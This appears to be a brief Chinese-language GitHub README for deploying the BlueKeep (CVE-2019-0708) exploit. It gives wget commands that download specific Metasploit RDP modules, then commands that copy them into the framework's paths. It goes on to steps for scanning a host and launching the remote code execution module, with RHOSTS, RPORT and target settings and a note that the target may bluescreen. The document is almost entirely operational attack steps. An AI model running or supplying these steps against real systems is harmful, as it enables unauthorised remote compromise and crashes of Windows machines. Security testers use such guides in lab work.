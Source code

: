 # bluekeep

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb

wget https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
```

> 已保存到rb文件夹下

## 下载下来后，直接复制到对应的路径。

```sh
cp rdp.rb /opt/metasploit-framework/embedded/framework/lib/msf/core/exploit/

cp rdp_scanner.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/

# 如果这里没有rdp目录，就用mkdir命令创建一个rdp目录

cp cve_2019_0708_bluekeep_rce.rb /opt/metasploit-framework/embedded/framework/modules/exploits/rdp/

cp cve_2019_0708_bluekeep.rb /opt/metasploit-framework/embedded/framework/modules/auxiliary/scanner/rdp/
```

## 使用`reload_all`重新加载0708rdp利用模块

先 `use auxiliary/scanner/rdp/cve_2019_0708_bluekeep` 扫一下

再  `use exploit/rdp/cve_2019_0708_bluekeep_rce` 

> 小心蓝屏


### 主要设置的参数有RHOSTS / RPORT / target

* RHOSTS 靶机ip
* RPORT rdp端口
* target ID数字(可选为0-4)设置受害机机器架构

> target 234 多数是虚拟机，默认为0

> show targets //显示exploit支持的操作系统类型